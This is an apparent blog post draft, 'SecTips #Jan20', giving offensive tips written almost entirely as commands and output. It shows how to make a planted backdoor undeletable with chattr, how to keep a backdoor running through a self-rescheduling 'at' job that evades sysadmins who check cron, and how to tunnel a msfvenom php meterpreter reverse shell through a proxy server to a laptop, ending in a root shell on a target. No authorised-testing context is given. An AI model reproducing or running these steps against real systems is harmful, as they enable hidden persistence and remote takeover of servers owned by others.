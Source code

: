 ```yaml
---
title: "SecTips #Jan20"
author: "Adam Jordan"
description: "Happy new year 2020! In this month's SecTips, I will give some tips about
how to create an unremovable file in UNIX,
how to use AT for backdoor persistence,
and how to listen to meterpreter with a laptop behind NAT."
tags: [security, sectips]
date: 2020-01-24
draft: true
---
```


> **About SecTips**

> This is a series in which I will write some tips related to security engineering.
> Instead of discussing heavy and long topics, I will present some _fun_ things in a concise walkthrough format.


Happy new year 2020! In this month's SecTips, I will give some tips about
how to create an unremovable file in UNIX,
how to use AT for backdoor persistence,
and how to listen to meterpreter with a laptop behind NAT.

1. [Unremovable Files in UNIX](#tips1)
2. [Your Sysadmin knows CRON? Try using AT](#tips2)
3. [Listen to Meterpreter with your Laptop behind NAT](#tips3)



## TIPS-01: Unremovable Files in UNIX<a name="tips1"></a>

Let's say you have put your super malicious backdoor in a server, and you did not want anyone to remove this backdoor file. How to do this? Just make it immutable in file-system level _:v_

```bash
$ touch u-cant-rm-this

$ ls -l
total 0
-rw-r--r-- 1 root root 0 Mar 14 09:39 u-cant-rm-this

$ chattr +i u-cant-rm-this

$ ls -l
total 0
-rw-r--r-- 1 root root 0 Mar 14 09:39 u-cant-rm-this

$ rm u-cant-rm-this
rm: cannot remove 'u-cant-rm-this': Operation not permitted
```

---

## TIPS-02: Your Sysadmin knows CRON? Try using AT<a name="tips2"></a>

You want to make your backdoor persistence? One of the easiest thing is to just add it to cron.
However, let's face the truth: EVERYBODY knows cron!
Of course it will be the first place to check by your sysadmin, and your malicious backdoor will be gone as easily as you put it on the cron.

Try using `at`. Of course if someone knows it, it is also very easy to detect and remove,
but I'll bet there are far fewer people that knows that the command even exists.

```bash
$ echo "echo 1337 > /tmp/meh" > malicious.sh

$ at -f malicious.sh now + 1 minute
warning: commands will be executed using /bin/sh
Job 1 at Thu Mar 14 18:54:00 2019

$ atq
1 Thu Mar 14 18:54:00 2019 a user

# wait...

$ cat /tmp/meh
1337
```


But it only run once! What to do if you want to run this periodically?

Just add `at` command in your scripts...

```bash
$ echo "at -f malicious.sh now + 1 minute" >> malicious.sh
$ at -f malicious.sh now + 1 minute
```

---

## TIPS-03: Listen to Meterpreter with your Laptop behind NAT<a name="tips3"></a>

When you are targeting a server on the internet, sometimes you'd like to listen to an incoming reverse shell session (via Meterpreter).
In this case, you will need to setup the listener on a server with a public IP address.

However, let's imagine a situation where we don't want to run metasploit on our servers, maybe to keep the server clean.
What we want is to run the metasploit on our laptop, but _alas_, it did not have any front-facing public IP.

In this tips, I will show how to use our server as proxy to forward the reverse shell session from our target to our laptop sitting behind NAT.


```bash
# setup ssh tunnel
laptop:$ ssh -R 0.0.0.0:8080:127.0.0.1:1337 -NF user@proxy_server

# listen for meterpreter connection
laptop:$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set LHOST 127.0.0.1
msf5 exploit(multi/handler) > set LPORT 1337
msf5 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > exploit -j
```

Next let's generate payload and have our target execute it.

```bash
# generate payload
laptop:$ msfvenom -p php/meterpreter_reverse_tcp \
     LHOST=proxy_server \
     LPORT=8080 > payload

# move payload to target server
laptop:$ scp payload.php target:payload.php

# execute payload in target server
target:$ php payload.php
```

Then _boom_, the meterpreter is connected to your laptop.

```bash
msf5 exploit(multi/handler) >
[*] Meterpreter session 1 opened

msf5 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                   Information              Connection
  --  ----  ----                   -----------              ----------
  1         meterpreter php/linux  root (0) @ f62342bbe4ce  127.0.0.1:1337 -> 127.0.0.1:51306 (127.0.0.1)

msf5 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 121 created.

whoami
root
```
